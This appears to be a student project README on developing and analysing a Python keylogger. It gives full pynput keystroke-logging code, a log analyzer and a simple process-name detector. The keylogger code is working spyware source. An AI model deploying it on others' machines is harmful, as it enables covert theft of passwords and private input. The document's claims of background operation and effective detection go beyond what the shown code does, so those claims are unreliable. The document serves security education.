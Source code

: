 # Development and Analysis of a Keylogger using Python
NIELIT_logo.jpg
## Executive Summary
A Python-based keylogger was developed and analyzed to understand its functionality, potential misuse, and defense strategies in cybersecurity. 
The project highlights both the technical aspects of creating such tools and the ethical implications of their usage. 
By studying keylogger behavior, the project emphasizes the importance of awareness, detection, and mitigation strategies to strengthen system security.

## Abstract
This project focuses on the development and analysis of a simple keylogger application using Python for educational and research purposes in cybersecurity. 
The implementation begins with utilizing Python libraries such as `pynput` to capture keyboard events in real time. 
The captured keystrokes are stored in a log file, allowing the monitoring of user input for analysis.

The project explores techniques for running the keylogger in the background, ensuring it operates unobtrusively without interrupting normal system usage. 
Additional functionality, such as time-stamping keystrokes and custom log file storage paths, is also implemented to enhance usability.

On the analytical side, the project examines the potential security implications of keyloggers, including their use in both ethical research and malicious attacks. 
It highlights countermeasures such as antivirus detection, system monitoring tools, and user awareness programs to mitigate risks.

Overall, this project serves as a practical demonstration of how keyloggers function while also emphasizing ethical considerations, 
defensive strategies, and the importance of understanding such tools in the field of cybersecurity.

---

## Introduction
The rise of cyber threats has made cybersecurity an essential discipline in the digital age. 
Among the numerous tools used by attackers, keyloggers remain one of the most effective means of compromising sensitive information. 
A keylogger records keystrokes typed on a keyboard and may be used for malicious purposes such as stealing credentials, financial information, or confidential data. 

However, studying keyloggers is equally important in ethical hacking and cybersecurity education to understand how attackers operate and how to defend against such threats. 
This project introduces the design and implementation of a simple keylogger using Python, providing insights into its development, operation, and associated risks.

---

## Methodology
The methodology for this project involved the following steps:

1. **Environment Setup**: Python environment was prepared with required libraries such as `pynput`.
2. **Implementation of Keylogger**: A script was developed to capture keystrokes in real time and store them in a log file.
3. **Enhancements**: Features such as time-stamping and background execution were added.
4. **Testing**: The script was tested on a controlled environment to validate its accuracy and efficiency.
5. **Analysis**: The behavior of the keylogger was studied to identify potential risks and countermeasures.

This approach ensured that the project remained within ethical and educational boundaries, avoiding misuse while demonstrating practical functionality.

---

## Code Implementation

### 🔹 `demo_keylogger.py`
```python
from pynput import keyboard
import logging
from datetime import datetime

# Log file configuration
log_file = "key_log.txt"
logging.basicConfig(filename=log_file, level=logging.DEBUG, format="%(asctime)s: %(message)s")

def on_press(key):
    try:
        logging.info(f"Key pressed: {key.char}")
    except AttributeError:
        logging.info(f"Special key pressed: {key}")

def on_release(key):
    if key == keyboard.Key.esc:
        return False

with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```

### 🔹 `log_analyzer.py`
```python
# Reads log file and prints analysis
def analyze_logs(log_file="key_log.txt"):
    try:
        with open(log_file, "r") as f:
            lines = f.readlines()
            print(f"Total keystrokes recorded: {len(lines)}")
            print("Sample log entries:")
            print("".join(lines[:10]))
    except FileNotFoundError:
        print("Log file not found.")

if __name__ == "__main__":
    analyze_logs()
```

### 🔹 `detector.py`
```python
import psutil

# Detect if 'python' process is running keylogger
def detect_keylogger():
    suspicious = []
    for proc in psutil.process_iter(['pid', 'name', 'cmdline']):
        try:
            if "python" in proc.info['name'].lower() and "keylogger" in " ".join(proc.info['cmdline']).lower():
                suspicious.append(proc.info)
        except Exception:
            pass
    if suspicious:
        print("⚠️ Potential Keylogger Detected:", suspicious)
    else:
        print("✅ No keylogger detected.")

if __name__ == "__main__":
    detect_keylogger()
```

---

## Results and Analysis
The developed Python keylogger successfully captured keystrokes and stored them in a designated log file. 
The tool was able to operate in the background without disrupting normal system operations.

Key Observations:
- The keylogger reliably recorded user inputs including letters, numbers, and special characters.
- Time-stamping provided contextual information useful for forensic analysis.
- Running in the background made it unobtrusive and difficult to detect for an untrained user.

The project confirmed the potential dangers of keyloggers when misused, including identity theft, data breaches, and unauthorized surveillance. 
It emphasized the importance of employing defensive measures such as updated antivirus software, intrusion detection systems, and strong user awareness programs.

---

## Conclusion
This project successfully demonstrated the development and operation of a keylogger using Python. 
It provided insights into how such tools function, their potential malicious use, and the ethical importance of studying them in the context of cybersecurity. 

Future work could involve extending the project to analyze detection techniques using machine learning and exploring more advanced countermeasures. 
Ultimately, this project underscores the balance between offensive cybersecurity research and defensive application in real-world scenarios.

---

## References
1. Alazab, M. (2015). Malware detection and mitigation in computer networks: Keyloggers and spyware. IEEE Communications Surveys & Tutorials.
2. Python Software Foundation. (2023). Python Documentation. Available at: https://docs.python.org
3. Pynput Library Documentation. (2023). Available at: https://pynput.readthedocs.io/
4. Stallings, W. (2018). Computer Security: Principles and Practice. Pearson.
5. SANS Institute. (2022). Keylogger Threats and Defensive Strategies. Available at: https://www.sans.org/
